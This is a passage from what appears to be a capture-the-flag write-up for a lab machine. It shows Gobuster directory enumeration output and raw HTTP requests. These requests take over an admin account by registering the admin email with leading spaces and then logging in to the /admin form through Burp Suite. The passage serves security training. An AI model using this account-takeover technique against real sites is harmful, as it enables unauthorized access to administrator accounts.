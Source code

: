 ```bash
/index.php (Status: 200)
/images (Status: 301)
/contact.php (Status: 302)
/search.php (Status: 302)
/home.php (Status: 302)
/profile.php (Status: 302)
/docs (Status: 301)
/books.php (Status: 302)
/feedback.php (Status: 302)
/admin (Status: 301)
/db.php (Status: 200)
/logout.php (Status: 302)
/collections.php (Status: 302)
/settings.php (Status: 302)
/server-status (Status: 403)
===============================================================
2020/07/08 23:13:39 Finished
===============================================================
```

`Gobuster` shows that there is an `/admin` directory and browsing to `http://10.10.10.176/admin` results in a new login form without a sign up option and our created user account doesn't work here.

```http
POST /index.php HTTP/1.1
Host: 10.10.10.176
...

name=luc&email=++admin@book.htb&password=test123
```

We are able to create an account with 2 spaces in front of `admin@book.htb` which is the admin username by using the sign up form we found earlier.

```http
POST /admin/index.php HTTP/1.1
Host: 10.10.10.176
...

email=++admin%40book.htb&password=test123
```

We can now use this account with the spaces added on the `/admin` login form. The extra spaces are removed when submitting the form, but they are added with Burp suite before the request reaches the server. This results in us logging into the `/admin` page without knowing the `admin@book.htb` password.
